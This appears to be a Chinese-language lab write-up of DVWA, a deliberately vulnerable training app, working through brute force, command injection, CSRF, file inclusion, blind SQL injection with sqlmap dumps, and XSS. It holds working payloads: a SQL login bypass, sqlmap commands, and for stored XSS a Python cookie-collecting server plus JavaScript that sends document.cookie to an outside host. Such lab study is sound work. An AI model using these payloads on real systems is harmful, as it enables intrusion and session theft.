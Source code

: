 ```yaml
---
icon: pen-to-square
date: 2025-03-14
tags: 
title: DVWA
category:
  - 项目
---
```

# 前言
## **set up**
```bash
Downloading DVWA from GitHub...
Cloning into '/var/www/html/DVWA'...
remote: Enumerating objects: 5105, done.
remote: Counting objects: 100% (91/91), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 5105 (delta 79), reused 67 (delta 67), pack-reused 5014 (from 4)
Receiving objects: 100% (5105/5105), 2.49 MiB | 2.08 MiB/s, done.
Resolving deltas: 100% (2489/2489), done.
MariaDB service is already enabled.
MariaDB service is already running.

Default credentials:
Username: root

Password: [No password just hit Enter]
Enter SQL user: root
Enter SQL password (press Enter for no password):
SQL commands executed successfully.
Configuring DVWA...
Configuring permissions...
Configuring PHP...
Apache service is already enabled.
Restarting Apache...
DVWA has been installed successfully. Access http://localhost/DVWA to get started.
Credentials:
Username: admin
Password: password

With ♡ by IamCarron
root@ubantuu:~# ls
mc  path  vulhub
root@ubantuu:~#

```
docker共享文件夹
```bash
sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```
# low
## brute Force
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193624.png)
这题可以字典攻击
用集群炸弹攻击，会遍历所有排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193938.png)
如果用pitchfork攻击，是这样的排列，按照字典的排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194133.png)
简单列表就很奇怪了，只会插入一个payload位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194626.png)
碰撞攻击会为每一个payload使用同一个字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194822.png)


然后构造字典，实际情况会更复杂，花费的时间也更多
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194045.png)

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194441.png)
成功的组合长度是不同的
还有sql注入的方面也可以攻破此关
```sql
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```
源码的sql逻辑很简单，我们只需要
构建这样的payload即可通过
`user;` admin' or '1='1

## Command Injection
& ：前面一个命令无论是否执行，后面的命令都能执行，两个命令都执行  
- 似乎会同时执行两个命令
&&：前面一个命令执行成功后，才能执行后面一个命令，两个命令都执行  
- 等待前一个命令执行后才会执行下一个命令
|：前面一个命令无论是否执行，后面的命令都能执行且    **只执行后面一个**  

||：前面一个命令不能正常执行后，才能执行后面一个命令

；:跟&&的原理差不多
看看源码
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314200721.png)
可以发现会将"ping"直接拼接到我们的"地址"上
我们可以利用这个进行上面的命令拼接符进行攻击，执行危险操作

=======

## CSRF（跨站请求伪造）
```php
$pass = $_GET[ 'password' ];
```

这是一切问题的根源，这段代码说明了包含修改密码的请求包可以在url中集成，意味着攻击者可以通过这个url构建一个按钮，访问这个页面，在不知不觉中造成密码更改
```url
http://192.168.254.128/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```

## File Inclusion
文件包含漏洞，可移植性任意文件，包括服务器本地文件和远程文件
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>


```

file upload
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314204935.png)
没有对文件做过滤并且会返回文件路径

=======


## # Vulnerability: Insecure CAPTCHA

=======
## SQL Injection (Blind)
^use-sqlmap
先测试正常回显,输入1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315111850.png)
然后输入-1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112001.png)
这里的逻辑
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112027.png)
返回值不为0(不为false)时才会回显exists
那么很好办了，常规的布尔盲注
测试闭合,1'显示miss，1“显示exists，意味着闭合为'
用length(database())试数据库大小，到4时为正确 ^d5e614
```
1' and length(database())=4 #
```
然后使用sqlmap，注意cookie是这个
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315120605.png)
示例命令
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" --current-db
```
注意--cookie的值需要双引号框住[[sql注入#^sqlmap|sqlmap教程]]
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122048.png)
成功爆库名
继续爆库名
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa --tables
```
- `-D`: 指定库名
- 爆表名
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122434.png)
比刚才快很多
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa -T users --dump --batch
```
- --batch:不再询问确认
- --dump：爆数据
- -D dvwa -T users：指定已知数据
还是比较快的
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315123803.png)
成功
## XSS(Reflected)
反射型xss

XSS漏洞的本质在于弹到网页的用户输入的内容，如果没有过滤用javascript闭合就会造成脚本执行，会造成用户信息泄露等危害
验证是否有XSS的实例
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124529.png)

```html
<script>alert('hack')</script>
```
回显，验证有XSS注入漏洞
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124722.png)
网页代码中的位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315125731.png)


======

----
## XSS(Stored)

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
import json
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)
        query_params = parse_qs(parsed_path.query)
         # 打印请求信息到控制台
        # print(f"\n[请求路径] {parsed_path.path}")
        # print(f"[查询参数] {json.dumps(query_params, indent=2)}")
        if "cookie" in query_params:
            print(f"已收集到cookie")
            print(f"[Cookie] {query_params['cookie'][0]}"+"\n")
        # print("[请求头]")
        # for header, value in self.headers.items():
        #     print(f"  {header}: {value}")
            # 发送响应
        self.send_response(200)
        self.send_header('Content-Type', 'text/html')
        self.send_header('Content-Length', '0')
        self.end_headers()
if __name__ == '__main__':
    server_address = ('', 7989)
    httpd = HTTPServer(server_address, RequestHandler)
    print("服务器已启动，监听端口 7989...")
    httpd.serve_forever()
```


写了一个简单的发送脚本
```javascript
<script>   var url = http://192.168.1.21:7989?cookie=' + encodeURIComponent(document.cookie);   var xhr = new XMLHttpRequest();   xhr.open('GET', url, true);   xhr.send(); </script>
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250317221248.png)

-----

